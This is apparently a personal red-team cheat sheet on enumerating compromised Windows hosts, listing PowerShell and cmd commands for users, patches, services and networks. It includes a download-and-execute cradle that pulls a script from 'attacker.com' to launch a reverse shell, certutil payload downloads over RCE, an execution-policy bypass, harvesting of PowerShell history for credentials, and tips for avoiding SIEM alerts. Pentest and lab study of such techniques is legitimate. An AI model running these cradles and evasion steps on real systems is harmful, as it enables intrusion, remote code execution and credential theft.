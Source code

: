 # enumeration of windows environments

This page serves as a reference to be used during operations. Included items are:

- checklists/skeletons of common enumerations loops
- prepared statements, ready for copy paste
- legacy reference notes, useful for writing and for when other methods have been exhausted

## default enumeration activity - noisy, lab use only

1. `systeminfo`
	1. we care about the most recent patch and build numbers
	2. in particular note the KB hotfix number
3. `powershell -c 'dir env:'`
	1. userinfo 
	2. env vars
4. Execute the following in order, parse the ouput carefully.
	1. `PowerUp.ps1`
	2. `SharpUp.exe`
	3. `WinPeasANY.exe`
5. manual enumeration
	1. focus on human activity
	2. scripts, notes, custom applications
	3. passwords written where they shoud not be


## powershell

> initial enumerations
```powershell
get-localuser		# lists users
get-localgroup		# lists groups
get-childitem -recurse -Depth 1		# nice way to get "tree" output
get-acl FILENAME    # shows owner+other stuff on directory/object pointed at
Get-Service | Where-Object -Property Status -eq Running # running services	 
```

> serving files
```
all cmd commands should work
also `wget` is a common alias which creates the `Invoke-WebRequest` powershell equivalent
```

> find command
```powershell
get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *SEARCH_TERM*
# https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/ 
```

> grep equivalent; this will search entire filesystem; albeit with a lot of terminal noise
```powershell
Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
```

## using common scripts

### Execution without touching disk

1. host the `script.ps1` 
2. edit the `script.ps1` file to call w.e. function you want by placing the function call, including arguments, at the end of this file. This is often the reverse shell.
3. use `IEX(new-object net.webClient).downloadString('http://attacker.com/script.ps1')` 


### Execution with touching disk 

> `PowerUp.ps1` is used as an example

```powershell
-ep bypass
import-module powerup.ps1 # or w.e u named it
invoke-allchecks          # this is a method defined in powerup.ps1
```


## legacy reference  - first attempts at learning enumeration

Flailing about. This section holds notes created when first studying Windows Enumeration. It is disorganized and ineffective for operations. Leaving it here to demonstrate growth and as reference for writing. Not likely to be referenced during campaigns. 

bullet points

- `C:/windows/tasks`     -   is a common (ALL) READ/WRITE directory
- winPEAS exists
- seatbelt exists
- `find` command exists, does it ? YES
- `cacls FILENAME`  access control lists; deprecated but sometimes has info



### notable files

> etc hosts
```
c:\Windows\System32\Drivers\etc\hosts
```

> powershell history
```
C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```


### the classics
```cmd.exe
systeminfo

wmic qfe get Caption, Description
; installed updates, hotfixes etc

net start
; started and installed services

wmic product get name,version,vendor
; installed apps

whoami /all  # (includes, /privs and /groups)
net user, net user /domain
net localgroup, net localgroup  GROUPNAME

net account, net accounts /domain  
; Get password policy info, among other stuff

```
> note that most of these are alarmed by the SIEM, especially those which enumerate the domain. powershell equivalents might be the way to go?


### network
> ports in use; all, binary(name of exe), no-resolve numbers, PID
```
netstat /?
netstat -abno
# -b is the valuable flag here, resolves binary name
```

> network interfaces, is this multi-homed?
```
ipconfig
```

> discover peers via pingsweep
```
PINGSWEEP SCRIPT, or manually
ping -a the results
```

> discovery peers, alternative to pingsweep, MAY BE ALARMED
```
arp -a
```

> host file, may reveal information
```
c:\Windows\System32\Drivers\etc\hosts
```


### cmd

> when enumerating through RCE; particularly useful for pulling/serving with certutil
```
cmd.exe /C 																			; executes a command in cmd.exe, similar to powershell -c
cmd.exe /C certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 	; example of serving
```


> basic enumerations; drop these commands when you initially land
```sh
powershell> dir env: 								; list env vars for current user; excellent info here
whoami /all  (or /priv)
systeminfo
type C:\Users\USER_NAME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> serving files 
```sh
certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 				; may not needs -split
```




